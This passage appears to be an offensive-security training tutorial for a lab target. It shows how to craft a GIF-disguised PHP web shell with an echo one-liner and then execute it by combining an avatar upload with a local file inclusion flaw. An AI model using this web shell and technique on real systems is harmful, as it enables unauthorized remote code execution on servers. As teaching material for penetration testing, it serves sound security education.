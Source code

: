 **Crafting Malicious Image**

Our first step is to create a malicious image containing a PHP web shell code that still looks and works as an image. So, we will use an allowed image extension in our file name (e.g. `shell.gif`), and should also include the image magic bytes at the beginning of the file content (e.g. `GIF8`), just in case the upload form checks for both the extension and content type as well. We can do so as follows:

LFI and File Uploads

```shell-session
root@htb[/htb]$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

This file on its own is completely harmless and would not affect normal web applications in the slightest. However, if we combine it with an LFI vulnerability, then we may be able to reach remote code execution.

Note: We are using a `GIF` image in this case since its magic bytes are easily typed, as they are ASCII characters, while other extensions have magic bytes in binary that we would need to URL encode. However, this attack would work with any allowed image or file type. The [File Upload Attacks](https://academy.hackthebox.com/module/details/136) module goes more in depth for file type attacks, and the same logic can be applied here.

Now, we need to upload our malicious image file. To do so, we can go to the `Profile Settings` page and click on the avatar image to select our image, and then click on upload and our image should get successfully uploaded:

![](https://academy.hackthebox.com/storage/modules/23/lfi\_upload\_gif.jpg)

**Uploaded File Path**

Once we've uploaded our file, all we need to do is include it through the LFI vulnerability. To include the uploaded file, we need to know the path to our uploaded file. In most cases, especially with images, we would get access to our uploaded file and can get its path from its URL. In our case, if we inspect the source code after uploading the image, we can get its URL:

Code: html

```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

Note: As we can see, we can use \`/profile\_images/shell.gif\` for the file path. If we do not know where the file is uploaded, then we can fuzz for an uploads directory, and then fuzz for our uploaded file, though this may not always work as some web applications properly hide the uploaded files.

With the uploaded file path at hand, all we need to do is to include the uploaded file in the LFI vulnerable function, and the PHP code should get executed, as follows:

![](https://academy.hackthebox.com/storage/modules/23/lfi\_include\_uploaded\_gif.jpg)

As we can see, we included our file and successfully executed the `id` command.

Note: To include to our uploaded file, we used `./profile_images/` as in this case the LFI vulnerability does not prefix any directories before our input. In case it did prefix a directory before our input, then we simply need to `../` out of that directory and then use our URL path, as we learned in previous sections.
